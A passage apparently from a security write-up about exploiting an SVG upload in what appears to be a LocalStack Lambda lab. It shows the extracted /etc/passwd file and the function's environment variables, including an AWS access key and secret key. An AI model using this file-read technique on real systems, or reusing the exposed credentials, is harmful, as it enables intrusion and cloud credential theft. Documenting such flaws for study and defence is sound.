 ‘
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="10" y="20">
root:x:0:0:root:/root:/bin/bash \
bin:x:1:1:bin:/bin:/sbin/nologin\
daemon:x:2:2:daemon:/sbin:/sbin/nologin\
adm:x:3:4:adm:/var/adm:/sbin/nologin\
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin\
sync:x:5:0:sync:/sbin:/bin/sync\
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown\
halt:x:7:0:halt:/sbin:/sbin/halt\
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin\
operator:x:11:0:operator:/root:/sbin/nologin\
games:x:12:100:games:/usr/games:/sbin/nologin\
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin\
nobody:x:99:99:Nobody:/:/sbin/nologin\
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin\
dbus:x:81:81:System message bus:/:/sbin/nologin\
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin\
libstoragemgmt:x:999:997:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin\
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin\
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin\
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin\
ec2-instance-connect:x:998:996::/home/ec2-instance-connect:/sbin/nologin\
postfix:x:89:89::/var/spool/postfix:/sbin/nologin\
chrony:x:997:995::/var/lib/chrony:/sbin/nologin\
tcpdump:x:72:72::/:/sbin/nologin\
ec2-user:x:1000:1000:EC2 Default User:/home/ec2-user:/bin/bash\
rngd:x:996:994:Random Number Generator Daemon:/var/lib/rngd:/sbin/nologin\
slicer:x:995:992::/tmp:/sbin/nologin\
sb_logger:x:994:991::/tmp:/sbin/nologin\
`

Using the same method we were able to extract the environment variables located on /proc/self/environ:

```
cat file_8m6ImlfKiB.svg 
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100">
  <text x="10" y="20">AWS_LAMBDA_FUNCTION_VERSION=$LATESTEDGE_PORT=4566HOSTNAME=e1e35b1f5338_LAMBDA_CONTROL_SOCKET=14AWS_LAMBDA_FUNCTION_TIMEOUT=10LOCALSTACK_HOSTNAME=172.18.0.2AWS_LAMBDA_LOG_GROUP_NAME=/aws/lambda/UploadToS3LAMBDA_TASK_ROOT=/var/taskLD_LIBRARY_PATH=/var/lang/lib:/lib64:/usr/lib64:/var/runtime:/var/runtime/lib:/var/task:/var/task/lib:/opt/libAWS_LAMBDA_RUNTIME_API=127.0.0.1:9001AWS_LAMBDA_LOG_STREAM_NAME=2024/12/17/[$LATEST]54d2b33123587737c87e8aed538da00b_LAMBDA_SHARED_MEM_FD=11AWS_EXECUTION_ENV=AWS_Lambda_python3.8_LAMBDA_RUNTIME_LOAD_TIME=1530232235231AWS_XRAY_DAEMON_ADDRESS=169.254.79.2:2000AWS_LAMBDA_FUNCTION_NAME=UploadToS3PATH=/var/lang/bin:/usr/local/bin:/usr/bin/:/bin:/opt/bin_LAMBDA_LOG_FD=9AWS_DEFAULT_REGION=us-east-1PWD=/var/taskAWS_SECRET_ACCESS_KEY=eDjlDHTtnOELI/L3FRMENG/dFxLujMjUSTaCHILLGUYLAMBDA_RUNTIME_DIR=/var/runtimeLANG=en_US.UTF-8TZ=:UTCAWS_REGION=us-east-1AWS_ACCESS_KEY_ID=AKIA5M34BDN8GCJGRFFBSHLVL=0HOME=/home/sbx_user1051AWS_LAMBDA_FUNCTION_INVOKED_ARN=arn:aws:lambda:us-east-1:000000000000:function:UploadToS3_AWS_XRAY_DAEMON_ADDRESS=169.254.79.2_AWS_XRAY_DAEMON_PORT=2000_X_AMZN_TRACE_ID=Root=1-dc99d00f-c079a84d433534434534ef0d;Parent=91ed514f1e5c03b2;Sampled=1_LAMBDA_SB_ID=7AWS_XRAY_CONTEXT_MISSING=LOG_ERROR_LAMBDA_CONSOLE_SOCKET=16AWS_LAMBDA_COGNITO_IDENTITY={}_HANDLER=handler.lambda_handlerDOCKER_LAMBDA_USE_STDIN=1AWS_LAMBDA_FUNCTION_MEMORY_SIZE=1536</text>
</svg>
```
